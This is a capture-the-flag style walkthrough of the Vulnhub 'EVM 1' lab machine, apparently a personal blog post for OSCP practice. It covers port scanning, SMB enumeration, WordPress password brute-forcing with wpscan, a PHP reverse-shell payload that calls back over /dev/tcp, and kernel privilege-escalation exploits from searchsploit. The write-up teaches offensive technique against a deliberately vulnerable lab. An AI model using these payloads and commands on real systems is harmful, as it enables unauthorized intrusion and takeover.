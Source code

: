 +++
title = "Vulnhub: EVM 1"
date = "2021-03-05"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Password Bruteforce", "WordPress", "WPScan"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/evm/evm.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ | 
| Beginner   | 2 Nov 2019   | Ic0de  | 


# Summary

This was an easy box, initial foothold was on wordpress. You needed to bruteforce the admin creds
then get a reverse shell via editing a theme file to get the reverse shell. Escalating to root
was straightforward as we found the root password in a txt file. Some kernel exploits could have also
been used for privilege escalation.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.103
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES SASL AUTH-RESP-CODE TOP UIDL PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more post-login LOGINDISABLEDA0001 ID LOGIN-REFERRALS listed IMAP4rev1 have capabilities OK ENABLE Pre-login LITERAL+ SASL-IR IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-03-04T15:43:32-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-04T20:43:32
|_  start_date: N/A
```

# Enumeration

## Samba (139,445)

Running smbmap and smbclient there's not much there.

```sh
smbmap -R -H 192.168.56.103

smbclient -L \\192.168.56.103 -N
```

{{< image src="/img/evm/evm1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From enum4linux-ng we only get a username

```sh
enum4linux-ng -A -R 192.168.56.103
```

{{< image src="/img/evm/evm2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## HTTP (80)

Visiting the ip on the browser there's only the apache default page.

Running directory bruteforce, we discover wordpress. 

{{< image src="/img/evm/evm3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Wordpress:

{{< image src="/img/evm/evm4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the comments hint towards bruteforcing credentials.

{{< image src="/img/evm/evm5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Bruteforcing the login page on wordpress we get the password `24992499`

```sh
wpscan --url http://192.168.56.103/wordpress/ -U c0rrupt3d_brain -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -t 100
```

{{< image src="/img/evm/evm7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as www-data
With admin access we can edit one of the wordpress theme files to get a reverse shell with this php payload.

```php
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/9000 0>&1 &'")?>
```

{{< image src="/img/evm/evm6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Loading the following url we get a reverse shell.

```
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php
```

{{< image src="/img/evm/evm8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Changing directory to /home there's one user's folder. Looking at all the files in this directory there's a hidden
file with the root user's password.
 
{{< image src="/img/evm/evm9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as root

Using the password `willy26` I switched to the root user.

{{< image src="/img/evm/evm10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Extras

Privilege escalation could have also been achieved via kernel exploit.

{{< image src="/img/evm/evm11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The box is running ubuntu 16.04.3 and kernel version 4.4.0-87. Searching for exploits using searchsploit
we get several hits.

{{< image src="/img/evm/evm12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Getting the first local privilege escalation script and transferring the compiled binary to the target, it works.
```sh
searchsploit -m 45010

gcc 45010.c -o pwn
```

{{< image src="/img/evm/evm13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The second one `44298` also works.

{{< image src="/img/evm/evm14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}
